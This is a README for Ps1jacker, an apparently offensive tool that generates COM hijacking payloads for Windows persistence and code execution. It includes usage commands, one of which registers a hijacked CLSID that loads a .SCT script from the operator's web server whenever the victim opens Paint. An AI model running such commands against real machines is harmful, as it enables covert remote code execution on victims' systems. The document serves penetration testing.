 # Ps1jacker
Ps1jacker is a tool for generating COM Hijacking payload.

**WARNING: This tool is still in heavy development - testing of CUSTOM and DEFAULT methods are ongoing!**

######  WHAT IS COM HIJACKING?
COM Hijacking is a method for an attacker to gain remote code execution or persistence on victims machine, by using legitimate Windows process'. 
The advantage of Ps1jacker is that it uses a method which allows the user to specify his/her script path on Web Server, which means there is no local
storage on victims machine involved in this process. 

######  DEFAULT METHOD [-hd]
The Default method will generate the payload for you without any of your user input. However, there are 2 precautions:
1. It will only work if you grab the file calc.SCT from examples directory and copy it to your victims machine exactly at `C:\\tools\\COM Testing\\`,
as the payload will be generated in a way, where it will expect the .SCT script to be located in that path.
2. This works only with using `MSPAINT.exe` (Paint). Meaning, victim has to open PAINT.exe in order for the payload to trigger.

Once you have done that, you can execute the powershell script on victims machine and it should generate all the registry entries for you.

######  CUSTOM METHOD [-p][-ch][-cf]
With the custom method you may specify your own .SCT script and decide whether:
1. Host it on your webserver: in this case you have to specify the path to the file on your server, eg. `http://<your_webserver_ip>/<your_sct_script>`
2. Host it on your victim's machine: in this case you specify the path where your .SCT script is residing on your victim's machine.
You also have to specify your own CLSID which you will hijack.
Same goes for the unique Fake CLSID. And remember, it has to be really unique, otherwise you will trigger an existing process in Windows instead of your
script.

######  DISCLAIMER: 
Please do not use this tool for illegal activities. This tools should be used by pentesters to ease the generation of payload for COM Hijacking technique.


######  TEST 1:
This will generate a default payload that will open Calculator instead of MSPAINT. Be sure to have calc.SCT file from Examples folder within C:\tools\COM Testing\ on victim machine. Otherwise this method wont work.

`python ./ps1jacker.py -hd`

######  TEST 2:
Hijacking MSPAINT.exe by specifing custom parameters.

`python ./ps1jacker.py -p "http://<web_server_ip>/<your_sct_file>" -ch {926749FA-2615-4987-8845-C33E65F2B957} -cf {00000001-0001-0001-0001-0000DEADBEEF}`


